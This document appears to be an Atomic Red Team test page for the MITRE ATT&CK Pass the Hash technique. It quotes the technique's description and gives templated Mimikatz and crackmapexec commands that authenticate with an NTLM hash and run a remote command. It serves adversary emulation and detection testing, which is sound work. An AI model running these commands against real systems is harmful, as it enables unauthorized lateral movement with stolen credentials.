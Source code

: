 # T1550.002 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1550/002)
<blockquote>Adversaries may “pass the hash” using stolen password hashes to move laterally within an environment, bypassing normal system access controls. Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems.

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes.(Citation: NSA Spotting)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - crackmapexec Pass the Hash](#atomic-test-2---crackmapexec-pass-the-hash)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | atomic.local|


#### Attack Commands: Run with `command_prompt`! 


```cmd
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```






<br/>
<br/>

## Atomic Test #2 - crackmapexec Pass the Hash
command execute with crackmapexec

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| crackmapexec_exe | crackmapexec windows executable | Path | C:&#92;CrackMapExecWin&#92;crackmapexec.exe|
| command | command to execute | string | whoami|
| ntlm | command | string | cc36cf7a8514893efccd3324464tkg1a|
| domain | domain | string | atomic.local|


#### Attack Commands: Run with `command_prompt`! 


```cmd
crackmapexec #{domain} -u #{user_name} -H #{ntlm} -x #{command}
```




#### Dependencies:  Run with `powershell`!
##### Description: CrackMapExec executor must exist on disk at specified location (#{crackmapexec_exe})
##### Check Prereq Commands:
```powershell
if(Test-Path #{crackmapexec_exe}) { 0 } else { -1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host Automated installer not implemented yet, please install crackmapexec manually at this location: #{crackmapexec_exe}
```




<br/>
